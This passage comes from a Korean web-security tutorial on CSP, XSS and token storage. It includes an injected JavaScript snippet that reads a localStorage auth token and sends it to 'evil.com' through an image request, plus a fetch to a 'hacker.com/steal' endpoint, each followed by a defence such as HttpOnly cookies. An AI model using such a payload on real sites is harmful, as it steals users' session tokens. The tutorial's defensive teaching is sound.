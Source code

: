 **방어 효과:**
```javascript
// 🚫 CSP에서 차단됨!
<script src="http://hacker.com/evil.js"></script>
// 브라우저 콘솔: "CSP 위반: 외부 스크립트 실행 차단됨"

// 🚫 외부 도메인으로 데이터 전송 차단!
fetch('http://hacker.com/steal', {...});
// 브라우저 콘솔: "CSP 위반: 허용되지 않은 도메인"
```

---

## 🎯 실제 공격 시나리오와 방어

### 시나리오 1: XSS + localStorage 공격

**공격 코드:**
```javascript
// 악성 스크립트가 페이지에 삽입
(function() {
    const token = localStorage.getItem('authToken');
    if (token) {
        const img = new Image();
        img.src = 'http://evil.com/collect?token=' + encodeURIComponent(token) + 
                  '&url=' + encodeURIComponent(window.location.href) + 
                  '&ua=' + encodeURIComponent(navigator.userAgent);
    }
})();
```

**방어 전략:**
```java
// ✅ HttpOnly Cookie 사용
@PostMapping("/login")
public ResponseEntity<String> login(HttpServletResponse response) {
    String token = jwtProvider.generateToken(user);
    
    ResponseCookie cookie = ResponseCookie.from("authToken", token)
        .httpOnly(true)      // JavaScript 접근 불가
        .secure(true)        // HTTPS에서만 전송
        .sameSite("Strict")  // CSRF 방지
        .maxAge(Duration.ofHours(1))
        .path("/")
        .build();
        
    response.setHeader("Set-Cookie", cookie.toString());
    return ResponseEntity.ok("로그인 성공");
}
```

### 시나리오 2: 네트워크 스니핑 공격
